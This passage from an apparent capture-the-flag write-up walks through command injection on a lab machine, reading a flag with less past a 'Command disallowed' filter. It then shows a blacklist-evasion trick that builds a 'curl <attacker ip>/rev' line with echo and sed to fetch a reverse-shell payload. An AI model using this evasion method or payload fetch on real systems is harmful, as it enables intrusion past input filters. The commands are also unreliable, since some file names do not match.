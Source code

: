 Jarvis command:

ls

Results:

create.sql

node\_modules

package-lock.json

package.json

server.js

views

Jarvis command:

cd ..;ls

Results:

avengers

flag5.txt

After looking around we find the fifth flag (at this point I guessed I was supposed to find at least four flags by now). Cool, let’s see the contents.

cat ../flag5.txt

And we get hit with the same “Command disallowed” error that we got when we tried creating a reverse shell. I immediately started thinking of commands similar to cat such as head and tail, but neither worked. Eventually, I tried less which successfully revealed the contents of the fifth flag.

Now at this point, I didn’t know that I wasn’t supposed to go any further so I kept thinking of ways on how I would get a reverse shell. I tried many commands such as curl, bash, nc, perl, python, and many more commands. I was thinking about how it was possible to get a reverse shell without specifically typing any of these blacklisted strings. I came to the conclusion that if I could echo a string to a text file, and then somehow prepend text to it, then I could create a file that would contain a malicious command. Here is the methodology:

echo ‘url <attacker ip>/rev -o /tmp/reverse\_shell’ > /tmp/malicious\_command

sed -i '1s/^/cu/' /tmp/test     ← prepends the characters cu to /tmp/malicious\_command

chmod +x /tmp/malicious\_command

Content of /tmp/malicious\_command:

curl <attacker ip>/rev -o /tmp/rev

Then, executing /tmp/rev would call the curl command make our malicious file be downloaded to the /tmp directory.

Let’s try this out!

less /tmp/malicious\_command

![](/reports/Avengers/image9.png)
